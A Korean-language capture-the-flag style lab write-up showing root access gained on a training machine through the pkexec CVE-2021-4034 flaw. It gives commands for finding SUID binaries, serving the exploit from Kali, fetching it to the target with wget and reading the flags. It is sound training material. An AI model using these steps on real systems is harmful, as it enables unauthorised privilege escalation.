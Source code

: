 # Final Mission: Capstone Challenge

> Linux Privilege Escalation 실습의 마지막 단계인 Capstone Challenge에서, SUID로 설정된 `pkexec` 바이너리를 이용한 CVE-2021-4034(Local Privilege Escalation via Polkit) 익스플로잇을 활용해 루트 권한을 획득하고 플래그를 수집하였습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.47.252
- **공격 머신**: Kali Linux
- **사용 계정**: `leonard:Penny123`
- **공격 방식**: CVE-2021-4034 (Polkit pkexec Local Privilege Escalation)
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속 및 SUID 바이너리 확인

```bash
ssh leonard@10.10.47.252
```
- leonard 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 로그인 및 SUID 확인](./screenshots/ssh_connect.png)

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- SUID가 설정된 바이너리 목록에서 `/usr/bin/pkexec` 확인하였다.

![pkexec SUID 확인](./screenshots/pkexec_suid.png)

---

### 2.2 Exploit 준비 및 Kali SSH 활성화
- Kali에서 SSH 서버를 실행하여 외부에서 접근 가능하도록 설정하였다.
```bash
systemctl start ssh
```

![Kali SSH 서버 활성화](./screenshots/ssh_start.png)

---

### 2.3 Exploit 다운로드 및 전송 (Windows → Kali)
- 사용한 파일: `CVE-2021-4034.py` (Polkit pkexec Exploit)
- 해당 파일은 [GitHub 링크](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)에서 다운로드하였으며, 이후 실습 환경에 맞춰 수정되었다.

- Windows에서 Kali로 scp 명령어를 이용해 CVE-2021-4034 exploit 파일을 전송함.

```powershell
scp D:/exploit_file/CVE-2021-4034.py root@<KALI-IP>:/root
```

![Windows → Kali SCP 전송](./screenshots/move_scp.png)

---

### 2.4 Kali → Target 파일 전송 (HTTP 서버)
- Kali에서 HTTP 서버 구동 후, 타겟 머신에서 `wget`으로 파일 다운로드.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/CVE-2021-4034.py -O /tmp/exploit.py
```
- `/tmp` 디렉토리에 `exploit.py` 로 파일 이름 저장.

![Kali HTTP 서버 및 Target 다운로드](./screenshots/wget_download.png)

---

### 2.5 Exploit 실행 전 환경 확인 및 수정

- Target 머신에서 `/tmp/exploit.py` 확인 후 실행 시 python3가 없다는 에러 발생하였다.

![python3 오류 및 수정](./screenshots/py_error.png)

- 후에 `vi exploit.py`로 파일 열고 python3 → python으로 shebang 수정.
- 또한 `:version` 명령어를 통해 `+python` / `-python3` 환경임을 확인하였다.
```bash
chmod +x exploit.py
```

![:version을 통해 +python 확인](./screenshots/version_python.png)

---

### 2.6 Exploit 실행 및 루트 쉘 획득

- exploit.py를 실행하여 루트 쉘 획득 성공하였다.
```bash
./exploit.py
```

![루트 쉘 획득](./screenshots/get_root.png)

---

### 2.7 플래그 탐색 및 획득

```bash
find / -name flag1.txt
cat /home/missy/Documents/flag1.txt

find / -name flag2.txt
cat /home/root/flag/flag2.txt
```

![플래그 2개 획득](./screenshots/flag_capture.png)

---

## Exploit 파일 정보

- `/exploit/exploit.py`: 실습 환경에 맞춰 수정된 CVE-2021-4034 Python Exploit 스크립트입니다.
  - 수정사항: shebang을 `python3` → `python`으로 변경하여 대상 머신에서 실행 가능하도록 조정함
  - 원본 출처: [CVE-2021-4034 Python Exploit (GitHub)](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)


---

## 느낀 점
**Capstone Challenge를 통해 그동안 배운 권한 상승 기법 중 하나인 Kernel Exploit의 실제 활용**과, **SUID 기반 취약점 탐지 및 익스플로잇 환경 설정의 중요성을 복습할 수 있었다**. 특히 실행 환경의 python 버전과 같이, **사소하지만 중요한 요소가 Exploit 성공 여부를 좌우할 수 있다는 점을 체감**하였다.

